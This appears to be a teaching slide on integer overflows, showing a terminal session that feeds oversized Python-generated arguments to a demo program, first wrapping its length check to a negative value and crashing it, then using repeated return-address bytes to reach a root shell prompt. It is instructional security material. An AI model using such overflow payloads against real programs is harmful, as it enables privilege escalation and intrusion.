

# Integer Overflows
$ ./integeroverflow  `python -c 'print "A" * 32000'`
max 512 len 32000
$ ./integeroverflow  `python -c 'print "A" * 33000'`
max 512 len -32536
Segmentation fault
$ ./integeroverflow `python -c 'print "\x58\xf4\xff\xbf" * 9000'`
max 512 len -29536
#